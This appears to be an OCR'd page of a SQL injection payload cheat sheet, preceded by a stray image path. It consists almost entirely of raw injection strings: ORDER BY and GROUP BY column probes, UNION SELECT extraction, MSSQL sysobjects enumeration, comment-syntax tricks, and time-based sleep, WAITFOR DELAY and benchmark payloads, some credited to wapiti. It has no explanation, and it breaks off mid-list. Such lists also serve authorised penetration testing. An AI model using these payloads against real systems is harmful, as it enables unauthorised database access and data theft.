      1' ORDER BY 1,2--+
     1' ORDER BY 1,2,3--+

     1' GROUP BY 1,2,--+
     1' GROUP BY 1,2,3--+
     ' GROUP BY columnnames having 1=1 --


     -1' UNION SELECT 1,2,3--+
     ' UNION SELECT sum(columnname ) from tablename --


     -1 UNION SELECT 1 INTO @,@
     -1 UNION SELECT 1 INTO @,@,@

     1 AND (SELECT * FROM Users) = 1	

     ' AND MID(VERSION(),1,1) = '5';

     ' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --


     Finding the table name


     Time-Based:
     ,(select * from (select(sleep(10)))a)
     %2c(select%20*%20from%20(select(sleep(10)))a)
     ';WAITFOR DELAY '0:0:30'--

     Comments:

     #	    Hash comment
     /*  	C-style comment
     -- -	SQL comment
     ;%00	Nullbyte
     `	    Backtick
    
  
 ## 4-Time Based SQL Injection Payloads

   ### from wapiti
          sleep(5)#
          1 or sleep(5)#
          " or sleep(5)#
          ' or sleep(5)#
          " or sleep(5)="
          ' or sleep(5)='
          1) or sleep(5)#
          ") or sleep(5)="
          ') or sleep(5)='
          1)) or sleep(5)#
          ")) or sleep(5)="
          ')) or sleep(5)='
          ;waitfor delay '0:0:5'--
          );waitfor delay '0:0:5'--
          ';waitfor delay '0:0:5'--
          ";waitfor delay '0:0:5'--
          ');waitfor delay '0:0:5'--
          ");waitfor delay '0:0:5'--
          ));waitfor delay '0:0:5'--
          '));waitfor delay '0:0:5'--
          "));waitfor delay '0:0:5'--
          benchmark(10000000,MD5(1))#
          1 or benchmark(10000000,MD5(1))#
          " or benchmark(10000000,MD5(1))#
          ' or benchmark(10000000,MD5(1))#
          1) or benchmark(10000000,MD5(1))#